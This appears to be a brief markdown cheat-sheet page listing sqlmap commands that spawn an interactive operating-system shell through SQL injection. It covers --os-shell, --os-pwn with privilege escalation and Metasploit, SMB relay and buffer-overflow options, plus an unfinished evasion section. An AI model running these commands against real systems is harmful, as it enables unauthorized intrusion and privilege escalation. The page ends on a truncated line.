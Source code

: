 # Spawn Interactive Shell

- These requires **SELECT** and **FILE** privileges. Some needed a webroot directory except `--os-smbrelay`

`$ sqlmap --os-shell [--web-root=/remote/path/to/webroot_directory]`

`$ sqlmap --os-pwn [--priv-esc] [--web-root=/remote/path/to/webroot_directory] [--msf-path=/path/to/metasploit_directory/]`

`$ sudo sqlmap --os-smbrelay [--msf-path=/path/to/metasploit_directory/]`

- This requires **EXECUTE** privilege

`$ sqlmap --os-bof`

#### Evasion

TODO: Check the `cloak.py` feature that needs evasion for sqlmap

`$ cd `